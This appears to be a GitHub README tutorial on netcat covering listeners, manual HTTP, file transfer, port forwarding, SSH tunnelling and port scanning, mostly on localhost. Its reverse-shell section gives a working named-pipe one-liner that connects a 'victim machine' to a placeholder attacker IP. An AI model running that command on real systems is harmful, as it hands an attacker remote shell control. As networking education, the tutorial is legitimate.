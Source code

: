 # Exploring the TCP/IP swiss army knife

```
Setting up the Listener
Sending requests to the listener using different protocols(ssh, mysql, http)
Making netcat as a HTTP server and manually crating HTTP response
Setting up bidirectional tcp communication
File Transfer Using netcat
Illustrating gzip compression
Sending data with gzip compressed
Manually writing a HTTP request to a server (google.com)
Banner Grabbing
Creating a reverse shell
Port Forwarding
Setting up SSH tunnel in between
Port Scanning
```

## Setting up the listener
```bash
netcat -nvlp 8080
# -n -> don't perform DNS resolution
```

## Sending request from different servers using clients for different protocols

**Setting up the listener on 22 port SSH**
```bash
sudo netcat -nvlp 8080
```

**Making connection request from SSH client**
```bash
ssh user@localhost
```

![image](https://github.com/user-attachments/assets/6bb90f6f-ff78-4613-a681-4f4acfa5e050)

### Making mysql connection request

**Setting mysql server**
```bash
sudo netcat -nvlp 3306
```

**Sending the connection request from client**
```bash
mysql -h 127.0.0.1 -u someuser -p
# -h option forces for using TCP requeset instead of unix sockets
```

![image](https://github.com/user-attachments/assets/eb5f0120-dbbd-4367-bce1-6551445dae97)

### Making netcat as HTTP server and manually writing HTTP responses

**Setting up the http server**
```bash
netcat -nvlp 8080
```
**Sending HTTP request using curl**
```bash
curl -v localhost:8080
```
**Manually writing HTTP response**
```
HTTP/1.1 200 OK
Content-Length: 13
type: text/plain

Hello, World!
```

![image](https://github.com/user-attachments/assets/77129986-f170-40fa-91cc-38ec8f0c8db1)

## Setting up the Bidirectional communication using tcp client and server

**Creating server**
```bash
sudo netcat -nvlp 4000
```

**Creating client**
```bash
netcat localhost 4000
```

![image](https://github.com/user-attachments/assets/66cafcaf-f624-424a-9b8d-981333993133)

## File Transfer using netcat

**Listener (sender)**
```bash
nc -nvlp 4000 < file.txt 
```

**Client (Receiver)**
```bash
netcat localhost 4000 > copiedFile.txt
```

![image](https://github.com/user-attachments/assets/6aed78a1-8472-488e-8af3-f781856c783e)


## Illustrating gzip compression

![image](https://github.com/user-attachments/assets/d608b5f2-c353-48dd-81ed-42f1054358b7)

## Sending Data with gzip compressed

**Server**
```bash
nc -l -p 1234 | gunzip
nc -l -p 1234 | xxd # display bytes direclty
```

**Client**
```bash
python3 -c 'print("A"*1000)' | gzip -c | nc -q 0 localhost 1234
```

![image](https://github.com/user-attachments/assets/ad875a7c-3440-493e-be71-fecc44cc0c0b)

![image](https://github.com/user-attachments/assets/d8cd72e7-b054-4d11-85b2-dac4876e7e1c)

## Making a HTTP request
```bash
nc google.com 80
```
```
GET / HTTP/1.1
Host: google.com
User-Agent: Netcat
Accept: */*
```

## Banner Grabbing
- Make connection to the respective ports. The response from the server gives the banner

## Creating Reverse shell

**Attacker machine : Listener**
```bash
nc -nvlp 4444
```

**Victim machine**
```bash
mkfifo /tmp/f; nc <attacker_IP> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```
![image](https://github.com/user-attachments/assets/c64806cb-1e16-4475-b4a1-432636fa4ac8)


## Port Forwarding
**Forwarding port 8000 to 9000**
```bash
while true; do nc -l -p 9000 < /tmp/nc_pipe | nc localhost 8000 > /tmp/nc_pipe; done
```

**Setup the server on 8000**
```bash
python 3-m http.server
```

## Tunneling The traffic over ssh for encryption
**Server**
```bash
python3 -m http.server 8000
```

**Creating ssh tunnel from client(port 8080 to server port 8000)**
```bash
ssh -L 8080:localhost:8000 localhost
# run this on clinet
```

**Make requeset using browser or any otyer command line utility (from client)**
```bash
curl -v loclhost:8080
# note hte port, it's not 8000(server), it's 8000(client)
```

![image](https://github.com/user-attachments/assets/fde17763-cf29-4633-bd7a-3caebf51051b)

# Port Scanning using nmap
**Scanning a single port**
```bash
nc -zv localhost 80
```
![image](https://github.com/user-attachments/assets/7ce885e6-a54e-407b-8444-6fe07123dab1)

**Scanning range of IPs**
```bash
nc -zv localhost 1-100
```
![image](https://github.com/user-attachments/assets/5ec7889a-dc9e-4b48-9af9-88fd3db7e45d)

**Scanning using UDP**
```bash
nc -zv 127.0.0.53 53
```
![image](https://github.com/user-attachments/assets/c7d52220-bc46-4ccf-8cfb-5f6f536f90e6)


